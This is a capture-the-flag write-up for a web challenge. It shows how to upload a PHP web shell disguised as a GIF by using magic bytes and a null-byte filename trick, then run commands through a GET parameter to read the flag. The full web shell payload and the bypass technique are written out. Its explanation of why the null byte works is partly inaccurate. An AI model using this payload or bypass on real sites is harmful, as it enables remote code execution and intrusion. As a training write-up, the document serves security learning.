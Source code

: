 > **Problem Statement:** Who doesn’t love Magical Cars? go checkout this cool website and even upload your fav gif to support it. Author: @moaath

- Looking at the words “Magic” and “Upload GIF”, the first and foremost vulnerability that comes with websites are “Arbitrary File Upload” with magic byte, and null byte file extension manipulation.
- To achieve what we mentioned above, create a new file with contents as shown below, and save it with name “image.php%00.gif”
```php
GIF87a;  
<?php system($_GET["cmd"]); ?>
```
- Here, “GIF87a” will work as Magic bytes or file-type identifier, and it will identify as GIF (**EXTRA:** use `file image.php%00.gif` and you will see file type as GIF).
- **Note** that the filename is “image.php%00.gif” extension. This is because if we used only “.php” or “.gif.php” then the application’s upload filter may complain and won’t allow us to upload file. If we used “.php.gif” then browser would think it as GIF image ignoring the Magic Bytes. So, we need a way where the last extension in name remains “.gif” but the effective extension for browser becomes “.php”. This is where “%00” comes into picture. “%00” is null terminator, which for browsers is string terminator. Thus as far as browser is concerned even though the file name consists “image.php%00.gif”, effectively for browser it is only “image.php”.
- Now if we try to upload, then as shown in the Figure 1 below, we are able to upload the file, and even the file name in the link shows “image.php”.

![](./01-image-upload.png)

- Here we also see error for “system()” function because we haven’t passed any command in “cmd” GET parameter yet. In Figure 3 as we can see once we pass valid command let’s say `id` in “cmd” GET parameter, we can execute bash commands now. The term we use for this chain of vulnerabilities is **_Remote Code Execution via Arbitrary File Upload”_**
- Since we can execute any bash commands, looking around is easy, and we will see that in the parent directory of current directory, there is “flag.flag” file (Use command `ls ..` with “cmd” GET parameter). Read it and we get the flag.

FLAG: _ENO{4n_uplo4ded_f1l3_c4n_m4k3_wond3r5}_
